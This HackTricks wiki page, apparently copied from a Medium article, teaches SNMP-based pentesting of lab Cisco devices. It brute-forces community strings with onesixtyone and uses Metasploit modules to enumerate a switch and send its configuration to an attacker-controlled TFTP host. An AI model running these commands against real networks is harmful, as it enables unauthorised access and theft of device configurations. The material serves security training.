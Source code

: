 # Cisco SNMP

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

This page was copied from [https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9)

## Configuration exfiltration and enumeration via SNMP <a href="#e21c" id="e21c"></a>

**SNMP (Simple Network Management Protocol)** is a protocol that allows you to monitor the status of devices on a computer network. It can be network equipment, IP phones, corporate servers or anything else.

**SNMP uses the UDP transport layer protocol with port numbers 161/UDP and 162/UDP.** So-called community strings are used to refer SNMP agents to the server. These are, shall we say, special passwords for communicating with the SNMP server. **Community strings have either RO (read-only) or RW (read-write) permissions.**

**Actually, SNMP can not only monitor the equipment status, but also manage it in full: dump configs, change the configuration, etc.** If a pentester can look up the value of community strings, he actually gains access to the equipment. **However, it all depends on which string he bruteforced— to RO or RW community string.**

**Bruteforce community strings can be implemented using the** [**onesixtyone**](https://github.com/trailofbits/onesixtyone) **utility.** It will take as input the dictionary for bruteforcing and the IP addresses of the target hosts. The targets will be:

* **10.10.100.10 — Cisco vIOS Switch**
* **10.10.100.254 — Cisco vIOS Router**

```
~$ onesixtyone -c communitystrings -i targets
```

We found out what community strings are used on those devices. This opens the way for us to exploititation.

### 8.1 cisco\_config\_tftp <a href="#1dbf" id="1dbf"></a>

With the Metasploit framework, namely the **cisco\_config\_tftp** module, you can pull the device configuration by knowing the value of the community string. The string that has the rights to the RW is **private**.

We will need the following:

* **RW community string (COMMUNITY)**
* **Attacker’s IP address (LHOST)**
* **Target equipment IP address (RHOSTS)**
* **the path in which the module outputs the configuration of the device (OUTPUTDIR)**

```bash
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set COMMUNITY private
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set RHOSTS 10.10.100.10
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set LHOST 10.10.100.50
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > set OUTPUTDIR /home/necreas1ng/snmp
msf6 auxiliary(scanner/snmp/cisco_config_tftp) > exploit
```

After starting the module, the host configuration with address 10.10.100.10 (10.10.100.10.txt) will be downloaded to the specified folder.

![](<../../.gitbook/assets/image (223).png>)

### 8.2 snmp\_enum <a href="#3429" id="3429"></a>

With this module you can find out information about the target hardware. Everything is exactly the same: specify **COMMUNITY** (by the way, even a string with **RO permissions will do**) and the IP address of the target device.

```bash
msf6 auxiliary(scanner/snmp/snmp_enum) > set COMMUNITY public
msf6 auxiliary(scanner/snmp/snmp_enum) > set RHOSTS 10.10.100.10
msf6 auxiliary(scanner/snmp/snmp_enum) > exploit
```

<figure><img src="../../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

